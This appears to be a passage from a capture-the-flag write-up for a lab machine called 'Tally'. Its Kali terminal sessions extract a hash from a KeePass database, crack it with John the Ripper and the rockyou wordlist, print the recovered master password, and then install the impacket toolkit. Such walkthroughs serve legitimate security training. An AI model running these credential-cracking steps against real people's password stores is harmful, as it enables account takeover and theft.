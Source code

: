 Filezilla

![4tally](https://imgur.com/dQplUxE.jpg)

![5tally](https://imgur.com/CsAgN6G.jpg)

/User/Tim/Files

tim.kdbx

root@kali:~# keepass2john tim.kdbx > hash  
root@kali:~# john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt hash  
Created directory: /root/.john  
Using default input encoding: UTF-8  
Loaded 1 password hash (KeePass [SHA256 AES 32/64 OpenSSL])  
Press 'q' or Ctrl-C to abort, almost any other key for status  
simplementeyo (tim)  
1g 0:00:00:22 DONE (2018-05-15 05:42) 0.04363g/s 1077p/s 1077c/s 1077C/s simplementeyo  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed

root@kali:~# keepass2 tim.kdbx

![6tally](https://imgur.com/DJ0dq2k.jpg)

![7tally](https://imgur.com/DQV5MVo.jpg)

![8tally](https://imgur.com/lB0epYf.jpg)

root@kali:~# git clone https://github.com/CoreSecurity/impacket.git  
Cloning into 'impacket'...  
remote: Counting objects: 13553, done.  
remote: Compressing objects: 100% (86/86), done.  
remote: Total 13553 (delta 73), reused 71 (delta 50), pack-reused 13417  
Receiving objects: 100% (13553/13553), 4.73 MiB | 354.00 KiB/s, done.  
Resolving deltas: 100% (10233/10233), done.  
root@kali:~# cd impacket/  
root@kali:~/impacket# pip install -r requirements.txt  
Requirement already satisfied: pyasn1>=0.2.3 in /usr/lib/python2.7/dist-packages (from -r requirements.txt (line 1))  
Requirement already satisfied: pycrypto>=2.6.1 in /usr/lib/python2.7/dist-packages (from -r requirements.txt (line 2))  
Requirement already satisfied: pyOpenSSL>=0.13.1 in /usr/lib/python2.7/dist-packages (from -r requirements.txt (line 3))  
Collecting ldap3>=2.5.0 (from -r requirements.txt (line 4))  
Downloading https://files.pythonhosted.org/packages/f6/d9/a9db559375543af5ff950198a433bbc34bf7e8afbd32ab22231d0959710a/ldap3-2.5-py2.py3-none-any.whl (374kB)  
100% |████████████████████████████████| 378kB 168kB/s  
Collecting ldapdomaindump (from -r requirements.txt (line 5))  
Downloading https://files.pythonhosted.org/packages/b4/6a/7b964459fa7029fab62319c06ef6cd876417508df8650f662a8c9b29e99d/ldapdomaindump-0.8.5-py2-none-any.whl  
Requirement already satisfied: flask in /usr/lib/python2.7/dist-packages (from -r requirements.txt (line 6))  
Requirement already satisfied: dnspython in /usr/lib/python2.7/dist-packages (from ldapdomaindump->-r requirements.txt (line 5))  
Installing collected packages: ldap3, ldapdomaindump  
Successfully installed ldap3-2.5 ldapdomaindump-0.8.5
